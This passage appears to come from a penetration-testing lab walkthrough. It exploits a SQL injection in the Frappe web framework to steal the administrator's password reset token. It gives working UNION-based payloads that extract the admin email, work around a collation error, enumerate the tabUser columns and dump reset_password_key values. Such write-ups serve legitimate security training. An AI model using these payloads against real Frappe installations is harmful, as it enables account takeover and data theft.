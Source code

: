 ## Our Options
Frappe passwords are hashed with PBK DF2 hashing algorithm.
While it might be possible to crack the passwords, an easier route might be to hijack the password reset token.
Let's visit the homepage to verify that Frappe does indeed have password reset functionality:

![](../../t5-ss24.png)

We need to determine what tables to query to extract the password reset token value.

## Find The Table
The Frappe documentation for passwords states that Frappe keeps the name and password in the \_\_Auth table.
However, this table does not have a field for the password reset key, so we'll have to search the database for the key location.

We can visit the password reset page.
From here, we can use a token value to reset the password.
This token will allow us to more easily search through the logs to find the correct entry.

We will give the entry of token_searchForUserTable@mail.com.
Sending the request, we will look for database entries with our provided email.
Looking for our string, we find the following query:

```mysql
select * from `tabUser` where `name` = 'token_searchForUserTable@mail.com' order by modified desc
```

We see that the table we're looking for is tabUser.

## Reset The Password
Now that we know all the tables we need to target, we can proceed to exploit this using our SQL injection.
The documentation says that the email can be found in the name column in the \_\_Auth table.

Thus our payload will be:
```mysql
mytext" UNION ALL SELECT 1,2,3,4,name FROM __Auth#
```

However, sending the payload gives us an error:

![](../../t5-ss25.png)

We run into the error "Illegal mix of collations for operation 'UNION'".
Database collation describes the rules determining how the database will compare characters in a character set.
These collations will not take the case into consideration when comparing values.
It is possible for us to force a collation within the query. However, we first need to discover the collation used in the \_\_global_search table that we are injecting into.
Thus, to find the collation being used, we'll use the following payload:

```mysql
mytext" UNION SELECT 1,2,3,4,COLLATION_NAME FROM information_schema.columns 
WHERE TABLE_NAME = "__global_search" AND COLUMN_NAME = "name";
```

Sending the payload, we find the collation being used:

![](../../t5-ss26.png)

Now that we know the collation.
We can modify our payload so it does not throw us an error:

```mysql
mytext" UNION SELECT 1,2,3,4,name COLLATE utf8mb4_general_ci FROM __Auth#
```

Sending the payload, we are able to extract the administrator email:

![](../../t5-ss27.png)

Now that we have the email, we can use this email in the forgot password page, and proceed to extract the password reset token.
Before we extract the token, we need to know which column the token is stored in.
For that, we will use the following payload:

```mysql
mytext" UNION ALL SELECT 1,2,3,4,COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = "tabUser"#
```

Sending the payload:

![](../../t5-ss28.png)

We find the column we're looking for i.e. "reset_password_key" column.
Our next payload, will extract all the contents of the column and will look like so:

```mysql
mytext" UNION ALL SELECT name COLLATE utf8mb4_general_ci,2,3,4,reset_password_key COLLATE utf8mb4_general_ci FROM tabUser#
```